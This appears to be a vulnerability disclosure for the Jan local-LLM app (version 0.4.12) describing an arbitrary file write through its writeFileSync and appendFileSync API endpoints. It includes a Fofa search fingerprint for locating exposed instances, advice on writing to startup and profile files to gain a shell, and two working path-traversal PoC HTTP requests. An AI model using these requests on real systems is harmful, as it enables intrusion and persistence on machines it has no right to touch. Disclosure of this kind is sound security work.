 ## Introduce

Jan is an open source alternative to ChatGPT that runs 100% offline on your computer. Multiple engine support (llama.cpp, TensorRT-LLM).
![](https://blog.hackall.cn/usr/uploads/2024/05/3543389498.png)

### Vendor of the product(s)

- [Official website](https://jan.ai)
- [GitHub](https://github.com/janhq/jan)

## Vulnerability Description

Jan's API interface `writeFileSync` and `appendFileSync` does not filter parameters, resulting in an arbitrary file upload vulnerability.

## Affected Version

- 0.4.12 Latest

## Search Syntax

### Fofa

- icon_hash="-165268926"

## Principle and recurrence of vulnerabilities

Create any file and write any content, such as:
![](https://blog.hackall.cn/usr/uploads/2024/05/3356254959.png)
![](https://blog.hackall.cn/usr/uploads/2024/05/2523203294.png)
Append writing to existing files:
![](https://blog.hackall.cn/usr/uploads/2024/05/2893634900.png)
![](https://blog.hackall.cn/usr/uploads/2024/05/2755912184.png)
In addition, you can also exploit this vulnerability to write scheduled tasks and boot items, such as the: `/etc/init.d/`directory,`/etc/rc.d/`directory,`/etc/rc.local`,`~/.bash_profile`,`~/.bash_login` and `~/.profile` files to getshell.

## Poc

### writeFileSync

```
POST /v1/app/writeFileSync HTTP/1.1
Host: {{Host}}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Referer: http://<IP>:<Port>
contentType: application/json
Content-Type: text/plain;charset=UTF-8
Content-Length: 35
Origin: http://<IP>:<Port>
Connection: close

["/../../../../../tmp/a.txt","abc"]
```

### appendFileSync

```
POST /v1/app/appendFileSync HTTP/1.1
Host: {{Host}}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Referer: http://<IP>:<Port>
contentType: application/json
Content-Type: text/plain;charset=UTF-8
Content-Length: 48
Origin: http://<IP>:<Port>
Connection: close

["file:/../../../../../../tmp/a.txt","bbb  ccc"]
```
